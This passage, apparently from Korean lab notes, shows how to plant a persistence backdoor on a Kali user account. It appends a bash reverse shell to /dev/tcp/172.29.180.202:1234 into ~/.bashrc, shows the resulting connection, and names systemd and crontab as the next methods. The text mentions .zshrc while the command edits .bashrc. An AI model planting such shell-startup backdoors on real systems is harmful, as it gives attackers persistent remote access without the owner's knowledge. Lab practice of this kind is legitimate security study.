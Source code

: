 home/kali1 경로의 파일을 쭉 보면 `/.zshrc`는 kali1 소유에 쓰기 권한이 있는 것도 쉽게 알 수 있으므로 수정해준다.  

<img src="https://github.com/user-attachments/assets/e6014968-81cf-4b0c-bd63-419a77e3f275" width=800>   

<br>

```bash
nano ~/.bashrc
```

```bash
# Shell excution code
bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'
```

이렇게 추가해주면  
kali1이 쉘을 시작할 때마다 실행될것이다.  

확인을 해보면  
<br>

<img src="https://github.com/user-attachments/assets/9fc5b433-3754-475d-afaf-2697511674a3" width=1000>   

아무것도 없이 쉘을 실행만 해도 연결이 되어있는 것을 볼 수 있다.  

<br>

### 백도어 구현 2  

`systemd`, `crontab` 구현부터 작성하면됨
